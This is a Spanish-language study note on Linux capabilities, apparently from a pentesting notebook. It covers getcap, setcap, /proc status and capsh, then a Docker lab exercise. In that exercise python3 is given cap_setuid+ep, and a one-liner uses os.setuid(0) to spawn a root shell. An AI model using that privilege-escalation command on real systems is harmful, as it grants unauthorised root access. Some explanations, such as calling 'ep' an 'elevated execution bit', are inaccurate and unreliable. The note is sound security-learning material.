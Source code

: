 -----
- Tags: #capabilities #escalation #privilege 
---
# Explicación

> En sistemas Linux, las capabilities son una funcionalidad de seguridad que permite a los usuarios realizar acciones que normalmente requieren privilegios de superusuario (**root**), sin tener que concederles acceso completo de superusuario. Esto se hace para mejorar la seguridad, ya que un proceso que solo necesita ciertos privilegios puede obtenerlos sin tener que ejecutarse como root.

Las capabilities se dividen en 3 tipos:

- **Permisos efectivos (effective capabilities)**: son los permisos que se aplican directamente al proceso que los posee. Estos permisos determinan las acciones que el proceso puede realizar. Por ejemplo, la capability “**CAP_NET_ADMIN**” permite al proceso modificar la configuración de red.
- **Permisos heredados (inheritable capabilities)**: son los permisos que se heredan por los procesos hijos que son creados. Estos permisos pueden ser adicionales a los permisos efectivos que ya posee el proceso padre. Por ejemplo, si un proceso padre tiene la capability “**CAP_NET_ADMIN**” y esta capability se configura como heredable, entonces los procesos hijos también tendrán la capability “**CAP_NET_ADMIN**“.
- **Permisos permitidos (permitted capabilities)**: son los permisos que un proceso tiene permitidos. Esto incluye tanto permisos efectivos como heredados. Un proceso solo puede ejecutar acciones para las que tiene permisos permitidos. Por ejemplo, si un proceso tiene la capability “**CAP_NET_ADMIN**” y la capability “**CAP_SETUID**” configurada como permitida, entonces el proceso puede modificar la configuración de red y cambiar su **UID** (**User ID**).

Ahora bien, algunas capabilities pueden suponer un riesgo desde el punto de vista de la seguridad si se les asignan a determinados binarios. Por ejemplo, la capability **``cap_setuid``** permite a un proceso establecer el UID (User ID) de un proceso a otro valor diferente al suyo, lo que puede permitir que un usuario malintencionado ejecute código malicioso con privilegios elevados.

Para **listar** las capabilities de un archivo binario en Linux, puedes usar el comando **getcap** ``getcap -r / 2>/dev/null`` para ver las de todo el sistema. Este comando muestra las capabilities efectivas, heredables y permitidas del archivo. Por ejemplo, para ver las capabilities del archivo binario **/usr/bin/ping**, puedes ejecutar el siguiente comando en la terminal:

➜ `getcap /usr/bin/ping`

La salida del comando mostrará las capabilities asignadas al archivo:

➜ `/usr/bin/ping = cap_net_admin,cap_net_raw+ep`

En este caso, el binario ping tiene dos capabilities asignadas: **``cap_net_admin``** y **c``ap_net_raw+ep``**. La última capability (**``cap_net_raw+ep``**) indica que el archivo tiene el bit de ejecución elevado (**``ep``**) y la capability **``cap_net_raw``** asignada.

Para **asignar** una capability a un archivo binario, puedes utilizar el comando **``setcap``**. Este comando establece las capabilities efectivas, heredables y permitidas para el archivo especificado.

Por ejemplo, para otorgar la capability **``cap_net_admin``** al archivo binario **``/usr/bin/my_program``**, puedes ejecutar el siguiente comando en la terminal:

➜ `sudo setcap cap_net_admin+ep /usr/bin/my_program`

En este caso, el comando otorga la capabilitie **``cap_net_admin``** al archivo **``/usr/bin/my_program``**, y también establece el bit de ejecución elevado (**``ep``**). Ahora, el archivo ``my_program`` tendrá permisos para administrar la configuración de red.

El **bit de ejecución elevado** (en inglés, elevated execution bit o “**``ep``**“) es un atributo especial que se puede establecer en un archivo binario en Linux. Este atributo se utiliza en conjunción con las capabilities para permitir que un archivo se ejecute con permisos especiales, incluso si el usuario que lo ejecuta no tiene privilegios de superusuario.

Cuando un archivo binario tiene el bit de ejecución elevado establecido, se puede ejecutar con las capabilities efectivas asignadas al archivo, en lugar de las capabilities del usuario que lo ejecuta. Esto significa que el archivo puede realizar acciones que normalmente solo están permitidas a los usuarios con privilegios elevados.

Es importante señalar que los permisos permitidos pueden ser limitados aún más mediante el uso de un mecanismo de control de acceso obligatorio (MAC, Mandatory Access Control), como **SELinux** o **AppArmor**, que restringen las acciones que los procesos pueden realizar en función de la política de seguridad del sistema.

Para ver toda la información acerca de las Capabilities podemos utilizar la web https://GTFObins.github.io

![[Cap 4.png]]

--------
# Ejemplos

Como nosotros estamos practicando con contenedores en Docker, debemos emplear un parámetro para este ejercicio, el parámetro es el ``--privileged``. Cabe aclarar que si nosotros comprometemos una máquina que no está en un contenedor nos funcionará todo lo que hagamos sin necesidad de alterar nada.

- ``docker run -dit --privileged --name ubuntuServer ubuntu``

Para emplear el uso de los comandos básicos de **Capabilities** precisamos tener instalado el binario ``getcap`` y el binario ``setcap``, para instalarlos hacemos esto

- ``apt install libcap2-bin``

------

El primer binario con el que vamos a estar practicando es con ``tcpdump`` y con las herramientas básicas de **Network**, por lo tanto haremos un ``apt install tcpdump net-tools``

Después de esto **crearemos un usuario** en el sistema con el comando ``useradd -d /home/c4sp -s /bin/bash -m c4sp`` para otorgarle una **directorio personal** y una **bash**, luego nos meteremos en el con ``su c4sp``.

-----

Si intentamos ejecutar el ``tcpdump`` con *c4sp* **no podremos**, ya que no poseemos permisos para eso.

Lo primero que tenemos que hacer es listar las capabilities que posean los binarios que estén corriendo por el sistema como **procesos**, esto lo podemos hacer realizando un ``ls /proc/`` eligiendo un directorio que queramos de los que aparecen, en mi caso elegiré el directorio llamado ``8``, y dentro de este al igual que en los demás suele haber un archivo ``status``. Nosotros realizaremos un ``cat`` al archivo ``status`` pero usando ``grep`` para filtrar por la cadena *Cap*, que hace referencia a las **Capabilities** de ese proceso.

- ``cat /proc/8/status | grep Cap``

![[Cap 1.png]]

Ahora lo que haremos será por ejemplo elegir el ``CapPrm`` para copiar su valor y pasarlo por la herramienta que instalamos previamente llamada ``libcap2-bin``, de esta forma **veremos todas las Capabilities de este proceso**.

- ``capsh --decode=0000003fffffffff``

Para este **PID** que está corriendo, que en mi caso es el ``8`` se utilizan estas Capabilities.

![[Cap 2.png]]

Todas estas son las capacidades que **están vinculadas a este proceso** en cuestión de forma que este puede **ejecutar ciertas tareas privilegiadas**.

Podemos hacer un ``pwdx 8`` para ver en donde se está ejecutando este proceso.

Otra cosa que se puede hacer es ==directamente== utilizar la herramienta ``getpcaps (PID)`` para que al otorgarle el **PID** del proceso que nos interese ver sus capabilities nos las muestre.

----

Como usuario *root* vamos a setear dos **Capabilities** al binario ``tcpdump``, esto lo haremos con ``setcap cap_net_raw,cap_net_admin=eip /usr/bin/tcpdump`` estas lo que permiten/otorgan es el privilegio para cualquier usuario a nivel de sistema de ejecutar el ``tcpdump`` para **capturar tráfico de red**.

Como usuario *c4sp* realizaremos un ``getcap -r / 2>/dev/null`` para listar todas las **Capabilities** del sistema y efectivamente veremos las de la herramienta ``tcpdump``

-------

**Capabilities** hay de todo tipo, una de las más riesgosas es la ``cap_setuid+ep`` que permite controlar tu identificador de usuario

- ``apt install python3``

Como **root** le otorgaremos esta **Capabilitie** al binario ``python3`` que para ver su **ruta absoluta** hacemos un ``which python3 | xargs ls -l``.

- ``setcap cap_setuid+ep /usr/bin/python3.12``

Ahora como usuario **c4sp** al ver que el binario ``python3`` posee esta Capabilitie, podemos hacer ``python3.12 -c 'import os; os.setuid(0); os.system("bash")'`` de esta forma nos volveríamos el usuario con el identificador "*0*" correspondiente al usuario **root**.

![[Cap 3.png]]

